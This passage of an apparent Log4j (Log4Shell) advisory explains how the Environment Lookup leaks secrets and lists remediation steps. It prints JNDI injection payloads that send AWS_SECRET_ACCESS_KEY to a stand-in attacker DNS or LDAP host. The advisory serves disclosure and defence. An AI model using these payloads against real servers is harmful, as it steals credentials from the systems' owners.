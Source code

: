 ## Information Disclosure

Information disclosure can happen because of **Environment Lookup**.

It is a common practice to specify secrets, passwords, passphrases and access keys using environment variables. For example, Dockerized applications can take in the access and secret keys to AWS environment using environment variables mentioned in the Dockerfile.

Environment Lookup dumps environment variables in logs. For example ```${env:USER}``` will print the current ```$USER``` value in logs. Similarly ```${env:SESSION_MANAGER}``` and ```${env:AWS_SECRET_ACCESS_KEY}``` will dump ```$SESSION_MANAGER``` and ```$AWS_SECRET_ACCESS_KEY``` environment variables in logs.

This can disclose sensitive secrets in plaintext to anyone who has access to those logs. If the logger is used with an appender that discloses information back to the attacker, then the attacker can openly read the values of all environment variables.

### Information Leakage using DNS or JNDI Lookup

Even if an attacker cannot get access to log files, where environment variables have been dumped, there are other ways to leak those values. Two simple ways to do that are JNDI or DNS lookup calls.

Using a payload such as ```${jndi:dns://attacker-controlled-dns.com/a-domain}``` will cause the vulnerable web server to send a DNS query to ```attacker-controlled-dns.com```, asking for the ```a-domain``` DNS record. If the attacker changes the payload to ```${jndi:dns://attacker-controlled-dns.com/${env:AWS_SECRET_ACCESS_KEY}}```, then a DNS query is sent to the attacker controlled DNS server, with the value of the ```$AWS_SECRET_ACCESS_KEY``` environment variable as the domain whose record is being asked for. The attacker can simply extract the value from the query and misuse it.

On similar notes, even if an attacker is unable to pull off a complete RCE through JNDI injection, a payload like ```{jndi:ldap://directory.attacker-controlled-domain.com/${env:AWS_SECRET_ACCESS_KEY}}``` will leak the sensitive environment variable's value to the attacker, in the same way as explained above.


# Remediation

**Recommended**: Upgrade Log4j to a version ```2.15.0``` or above.

If not possible, the following workarounds will also mitigate:
* Modify every logging pattern to say ```%m{nolookups}``` instead of ```%m``` in logging config files, see details at [Log4j JIRA](https://issues.apache.org/jira/browse/LOG4J2-2109) (only works on versions &ge; 2.7). Make sure to introduce explicit pattern for all appenders as default pattern won't have this mitigation.
* Substitute a non-vulnerable or no-operation implementation of the following lookup classes in a way that the classloader uses this replacement instead of the vulnerable version of the class.:
  * ```org.apache.logging.log4j.core.lookup.JndiLookup```
  * ```org.apache.logging.log4j.core.lookup.EnvironmentLookup```
* The vulnerable lookup classes can be removed from all ```log4j-core-*.jar``` (or any fat JAR) files as follows. Change the ```find``` pattern accordingly:
  * ```find . -name "*.jar" -exec zip -q -d "{}" org/apache/logging/log4j/core/lookup/JndiLookup.class \;```
  * ```find . -name "*.jar" -exec zip -q -d "{}" org/apache/logging/log4j/core/lookup/EnvironmentLookup.class \;```
* In Log4j versions &ge; 2.10, it's possible to mitigate this issue by setting JVM system property ```-Dlog4j2.formatMsgNoLookups=true``` or the environment variable ```LOG4J_FORMAT_MSG_NO_LOOKUPS``` to true
